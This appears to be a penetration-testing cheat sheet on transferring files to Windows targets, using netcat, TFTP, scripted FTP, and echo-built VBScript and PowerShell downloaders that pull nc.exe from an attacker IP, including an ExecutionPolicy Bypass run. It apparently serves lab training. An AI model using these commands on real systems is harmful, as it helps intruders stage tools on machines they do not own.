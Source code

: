 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP**
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP**
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
#!/bin/bash 
 
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```
```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript**
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject(""WinHttp.WinHttpRequest.5.1"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""WinHttp.WinHttpRequest"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""MSXML2.ServerXMLHTTP"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""Microsoft.XMLHTTP"") >> wget.vbs
echo http.Open ""GET"",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject(""Scripting.FileSystemObject"") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = """" >> wget.vbs
echo strBuffer = """" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = ""http://10.11.0.42/nc.exe"" >>wget.ps1 
echo $file = ""nc.exe"" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 "	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```
